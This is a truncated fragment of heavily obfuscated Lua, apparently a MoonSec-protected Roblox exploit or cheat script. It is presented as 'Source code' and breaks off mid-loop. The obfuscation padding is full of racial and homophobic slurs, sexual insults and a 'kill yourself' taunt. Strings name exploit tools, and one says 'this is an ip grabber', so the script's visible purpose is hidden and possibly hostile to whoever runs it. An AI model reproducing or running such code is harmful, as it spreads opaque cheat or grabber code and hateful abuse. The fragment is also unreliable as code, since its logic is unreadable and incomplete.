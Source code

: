 ,nil,nil;(function() _msec=(function(e,l,o)local T=l["㒤㒞㒢㒣㒝㒡㒦㒟㒙㒠㒚㒞㒟㒜㒤㒜㒟"];local L=o[e[(-#{",",178,(function()return{','}end)(),1;",";178;1}+620)]][e["㒟㒦㒜㒠㒝㒛㒣㒛㒙㒘㒤㒦㒜㒠㒢"]];local _=(-121+0x7d)/((-32+((-0x11+-29)+-#[[real roblox omg builderman caught playing real]]))+0x7e)local c=((26908/(868/0x4))/62)-(163/0xa3)local j=o[e[(0x41c5/113)]][e["㒤㒦㒝㒣㒛㒥㒣㒞㒤"]];local p=(90+(-98-(-#'jjsploit winning'+(136-0x81))))+(0x18/12)local O=o[e[(1069-0x21f)]][e["㒜㒣㒤㒚㒡㒤㒘㒝㒠㒢㒦㒜㒝㒛㒚㒢"]]local d=(0x1b+-25)-(0x3e-((0x119+-94)-0x7e))local f=((0xd5c/(-#[[Cause I know the way to get em motivated]]+((-127+0x32)+174)))-57)local U=(675/((((111198-0xd956)-27836)/0x74)+-#"jjsplot on top"))local x=((((-67+(-#"what size is beliveri12s dick"+((0xd755/125)-0xfa)))+-#'Quiero pene')-0x43)+-#"Moonsex v5 eta")local w=(63/(-#{'nil';'nil',68}+24))local s=(402/((776-(6300/0xe))-0xc0))local u=(0x17d/(-#{1;(function()return{','}end)();'nil','}',{}}+132))local B=(-#'turi ip ip ip'+(62-(190-(-#{(function()return{','}end)();129;",";20;'}'}+150))))local y=((-88+(927+-#{1,",";{},66,'}';(function()return{','}end)(),'nil'}))/0xd0)local g=((-#'Gay porn'+(((-#{31;'}',31,1,'}'}+11720)-5869)/0x4f))-62)local C=((-#{32,1,(function()return#{('PMobMo'):find("\111")}>0 and 1 or 0 end);(function()return#{('PMobMo'):find("\111")}>0 and 1 or 0 end);'}';1,(function()return{','}end)()}+379)/93)local P=((((0x12b+(-20787/0xa9))+-29)+-#'impulse 2022')-131)local N=(-#'Faggot'+(111+((-0x5126/(227+-#{152;{},(function()return{','}end)(),'nil',32;152}))+-#'elbicho')))local b=(((-#[[ive seen your mothers ass]]+(((0x4884c/222)/223)-27))+62)+-#"sexo 4 o filme")local t=(-#{",",'nil';(function()return#{('OkMbmB'):find("\77")}>0 and 1 or 0 end);154,",";(function()return{','}end)()}+8)local M=(122-(-#{(function()return{','}end)(),",",",",",",",",37,'nil'}+127))local h=(-#{(function()return{','}end)(),(function()return#{('KOMBBM'):find("\77")}>0 and 1 or 0 end),96;",",'nil',","}+8)local k=(-#{'nil','}';","}+5)local i=(0x17-((-#{'}',{},",",","}+145)-0x78))local G=e[(-#[[niggers]]+(-0x41+1394))];local q=o[e[(0x717f/195)]][e["㒜㒤㒘㒜㒜㒝㒡㒚㒝㒞㒥㒟"]];local R=o[(function(e)return type(e):sub(1,1)..'\101\116'end)('㒠㒞㒗㒜㒝㒗㒟㒢')..'\109\101'..('\116\97'or'㒦㒢㒘㒥㒠㒛㒗㒤')..e[((1303-0x2c7)+-#"if syn request then print your mom then end and then kill yourself")]];local Y=o[e[((-0x67+649)+-#[[33 cocks in my mouth]])]][e["㒘㒡㒞㒣㒡㒤㒞㒣㒤㒜㒙㒡㒛㒦"]];local v=(-#'panzerfaust'+(-0x5c+105))-(-#'Nsrds GAYYYYAIAHAKAJAVAHAUA'+((-0x54+(((-0x25+449)-0xe0)+-#[[Big black men]]))+-0x3e))local m=(-#'moonsex looks great'+(483/((197-(0x1aa-264))+-#[[cilertedcool]])))-(0x37-53)local W=o[e[(0x147-178)]][e["㒛㒡㒣㒥㒝㒙㒠㒠㒗㒛㒠㒚㒗㒙㒙㒘㒝㒤"]];local n=function(e,o)return e..o end local I=(0x27+-35)*(0x9c/((-#[[hol on leme chec ur seirc histori toll]]+(-0x67+26))+154))local F=o[e["㒤㒝㒦㒝㒦㒥㒜㒢㒜㒤㒣㒘㒟㒛㒗㒜㒜"]];local r=(0x76-116)*(-#'iPipeh Is My god'+(-41+(38110/(0x1b5-231))))local z=((0x463+-78)+-#"this is an ip grabber")*(0x39-(-#'turi ip ip ip'+(0xf0-(-#[[Give Robux]]+(447-0x109)))))local H=((((73-0x52)+-#'ooga booga sex')+230)-155)local S=(38+((-0x52+-1430)/42))*(0xd8/108)local D=o[e["㒘㒗㒣㒡㒛㒞㒠㒚㒚㒡㒝㒟㒢"]]or o[e[((1112-0x236)+-#[[33 cocks in my mouth]])]][e["㒘㒗㒣㒡㒛㒞㒠㒚㒚㒡㒝㒟㒢"]];local a=((0x2c8+(-160+0x3c))-0x164)local e=o[e["㒢㒝㒘㒡㒡㒥㒠㒢㒦㒣㒘㒥㒝㒤㒜"]];local A=(function(a)local r,l=3,0x10 local o={j={},v={}}local n=-d local e=l+c while true do o[a:sub(e,(function()e=r+e return e-c end)())]=(function()n=n+d return n end)()if n==(I-d)then n=""l=v break end end local n=#a while
e